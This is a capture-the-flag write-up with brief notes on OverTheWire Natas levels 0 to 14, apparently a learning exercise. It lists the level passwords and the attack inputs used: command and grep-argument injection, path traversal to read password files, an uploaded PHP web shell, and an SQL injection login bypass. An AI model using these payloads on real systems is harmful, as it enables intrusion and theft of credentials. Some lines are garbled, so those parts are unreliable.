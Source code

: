 # Web
## Natas Wargame
* level 0
  * Username: natas0
  * Password: natas0
  * [URL] (http://natas0.natas.labs.overthewire.org)
  
* level 1
  * While seeing the source code we find the flag as comment.
  * The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto

* level 2
  * While seeing the source code we find the flag as comment.
  * The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
 
* level 3
  * In source code we find a png file containing a pixel, so opening it's directory gives us the user.txt file containing flag.
  * natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* level 4
  * While seeing the source code we find the flag as comment.
  * natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* level 5
  * The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 
  * Installed burp suit & foxy proxy and referrer was changed to natas5 in url the refresh gives the flag.

* level 6
  * The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
  * again in burpsuit the value of 0 turned to 1

* level 7
  * $secret = "FOEIUWGHFEEUHOFUOIU"; entering this gives
  * Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

* level 8
  * natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
  * view the link given source code.
  * encodedSecret = "3d3d516343746d4d6d6c315669563362";
  * DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

* level 9
  * Access granted.The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
  * ;ls  ;cat /etc/natas_webpass/natas10    giving this in the field and searching gives us  nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* level 10
  * .* /etc/natas_webpass/natas11 #   when given in the search gives us the password.
  * /etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* level 11
  * The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

* level 12
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas13
  * jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

* level 13
  * Using hex editor did mention spaces FF D8 FF E0
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas14
  * ����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
  * 
* level 14
  * sqli injection
  * Username and password given as: " or "1"="1
  * Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* level 15
  * 

* level 16
